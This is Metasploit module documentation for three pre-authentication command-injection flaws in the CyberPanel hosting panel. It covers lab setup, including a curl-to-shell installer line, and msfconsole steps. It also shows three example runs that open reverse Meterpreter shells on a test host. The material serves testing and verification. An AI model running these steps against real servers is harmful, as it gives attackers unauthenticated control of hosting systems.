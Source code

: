 ## Vulnerable Application

CyberPanel is an open-source web hosting control panel based on OpenLiteSpeed.
This module exploits two pre-authenticated remote command execution (RCE) vulnerabilities found in certain versions of CyberPanel.

- **CVE-2024-51378**: The `getresetstatus` endpoint in `dns/views.py` and
`ftp/views.py` in CyberPanel before commit `1c0c6cb` allows remote attackers to
bypass authentication and execute arbitrary commands via `/dns/getresetstatus` or
`/ftp/getresetstatus` by bypassing `secMiddleware`(which applies only to POST
requests) and using shell metacharacters in the `statusfile` property.
This vulnerability has been exploited in the wild as of October 2024 by PSAUX, affecting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51567**: The `upgrademysqlstatus` endpoint in `databases/views.py` in
CyberPanel before commit `5b08cd6` allows remote attackers to bypass authentication
and execute arbitrary commands via `/dataBases/upgrademysqlstatus`, also by
bypassing `secMiddleware` and using shell metacharacters in the `statusfile` property.
This vulnerability has similarly been exploited in the wild in October 2024
by PSAUX, impacting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51568**: CyberPanel before 2.3.5 allows command
injection via completePath in the ProcessUtilities.outputExecutioner() sink.
This vulnerability includes unauthenticated remote code execution via shell
metacharacters in the /filemanager/upload (aka File Manager upload) endpoint,
exploiting shell metacharacters for arbitrary command execution.

These vulnerabilities allow attackers to execute commands on the server without needing authentication.

### Installation Instructions

To set up a vulnerable instance of CyberPanel for testing, follow these
instructions on an Ubuntu 18.04 server (or later).
The example below demonstrates installation on Ubuntu 18.04, though newer versions of Ubuntu should work as well.

1. First, install necessary dependencies and disable IPv6 to avoid potential network issues:

```bash
sudo su -
apt update && apt install -y curl wget
sysctl -w net.ipv6.conf.all.disable_ipv6=1
sysctl -w net.ipv6.conf.default.disable_ipv6=1
```

2. Then, download and run the CyberPanel installation script:

```bash
sh <(curl https://cyberpanel.net/install.sh || wget -O - https://cyberpanel.net/install.sh)
```

3. During installation, choose the following options:
   - Install CyberPanel: Select option `1`
   - Install CyberPanel with OpenLiteSpeed: Select option `1`
   - Skip full installation (choose `n`)
   - Skip Postfix, PowerDNS, and PureFTPd installations
   - Skip Remote MySQL setup
   - Install CyberPanel version `2.3.4` when prompted
   - Decline Memcached and Redis installations

## Verification Steps

1. Install CyberPanel as outlined above.
2. Start `msfconsole`.
3. Use the module path: `use exploit/unix/webapp/cyberpanel_preauth_rce_multi_cve`.
4. Set the `RHOSTS` option to the target server’s IP.
5. Run the exploit with the desired CVE (choose either `cve-2024-51567`, `cve-2024-51568` or `cve-2024-51378`).
6. A successful exploitation should provide a shell on the target.

## Options

No option

## Scenarios

### Example: CVE-2024-51567 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51567` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51567
action => CVE-2024-51567
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 192.168.1.16:35194) at 2024-11-21 22:26:12 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Example: CVE-2024-51378 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51378` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51378
action => CVE-2024-51378
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 5 opened (192.168.1.36:4444 -> 192.168.1.16:39820) at 2024-11-21 22:27:06 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Example: CVE-2024-51568 on CyberPanel 2.3.4 (Ubuntu 18.04)

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51568
action => CVE-2024-51568
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] CSRF Token retrieved: CtCqolh8EQHkik3J8sjbUxPemD9PN8j2cZ7QBIxtUN3zmHQ1sbSnXOCBVWr00kI7
[*] CSRF Token retrieved: ExmQR7HciOpdsPRrh43NNjGNYaLbRb6pKnap4Z5onPfVGjPqCNFyehTAqIpBrSuB
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] CSRF Token retrieved: NMATUvqAxFW2bU5bnhvFf860BfFrj8DGMqtSXS81RbmxjifXo9sJCe1KM7933cIY
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 192.168.1.16:46212) at 2024-11-21 22:37:00 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
